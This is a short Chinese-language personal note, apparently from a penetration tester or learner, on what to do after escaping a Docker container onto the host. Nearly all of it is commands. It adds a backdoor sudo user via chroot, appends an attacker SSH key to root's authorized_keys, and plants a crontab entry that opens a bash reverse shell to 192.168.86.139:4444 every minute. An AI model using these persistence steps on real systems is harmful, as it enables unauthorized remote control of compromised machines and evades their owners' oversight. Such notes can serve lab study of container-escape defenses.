

逃逸成功之后操作---docker

2023年12月2日

14:20

 

逃逸成功

后续操作

1、添加用户

2、写入ssh key

3、计划任务

 

1、添加用户

chroot /test1 adduser john

逃逸得目录 添加用户 用户名

 

\# 将用户 john 添加到 sudo 组

chroot /test1 /usr/sbin/usermod -aG sudo john

 

 

登录：ssh john@your_server_ip

sudo -s

 

 

2、写入ssh key密钥登录

cd /test1/root/.ssh 到root ssh目录

 

本机执行：ssh-keygen -t ed25519 -N "123456"

N是密码

在目标机器插件authorized_keys文件

cat id_ed25519.pub

 

目标机器执行下面：

cat \>\> authorized_keys \<\< EOF

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIQVnh0Y2GhCxrEE7BSPPsN0oI13luK+r0yFZBidahtJ root@master-1

EOF

ssh -i id_ed25519 root@192.168.86.218

 

3、计划任务反弹shell【根据对方系统不同，反弹shell命令不同】

echo -e "\* \* \* \* \* root bash -i \>& /dev/tcp/192.168.86.139/4444 0\>&1\\n" \>\> /test1/etc/crontab

 
